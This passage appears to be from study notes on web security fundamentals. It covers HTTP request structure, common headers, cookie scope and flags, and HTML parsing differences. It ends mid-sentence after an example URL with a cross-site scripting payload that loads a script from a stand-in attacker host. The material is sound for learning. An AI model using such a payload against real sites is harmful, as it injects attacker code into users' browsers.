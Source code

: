 The format is basically as follow:

```
VERB /resource/path HTTP/1.1
Header1:Value1
Header2:Value2`

<Body>
```

A couple of familiar header:

- `Host`: the desired host handling the request
- `Accept`: what MIME type(s) are accepted by the client, often JSON or XML for web services
- `Cookie`: Passes cookie data to the server
- `Referer`: Page leading to this request (not passed to other servers when using HTTPS on the origin)
- `Authorization`: Used mainly for 'basic auth'.

### Cookies 🍪

Cookies are key-value with a TTL(time-to-live). They are sent by the server and are stored client-side for the duration of the TTL. Each cookie has a domain patten that it applies to, and they are sent with each request from the client to the server if the domain pattern matches the host.

### Scope

- Cookies added for `example.com` can be read by any subdomain of `example.com`
- Cookies added for a subdomain can only be read in that subdomain and its subdomains
- A subdomain can set cookies for its own subdomains and parent, but can't set cookies for sibling domains
  - ✅ `test.example.com` **can** set cookies for `example.com`
  - ✅ `test.example.com` **can** set cookies for `hello.test.example.com`
  - ❌ `test.example.com` **cannot** set cookies for `app.example.com`

#### Flags 🏁

The server adds these flags in the `Set-Cookie` header in the request that transmit the cookie

- Secure: the cookie is only accessible to HTTPS pages
- HTTPOnly: the cookie cannot be read by Javascript

### HTML

#### Parsing

HTML should be parsed according to the relevant spec (now HTML5).

If your HTML is parsed differently in the web-application firewall, in the browser etc, it can lead to security vulnerabilities.

An example:

http://example.com/vulnerable?name=<script/xss%20src=https://evilsite.com/my.js>

used to give
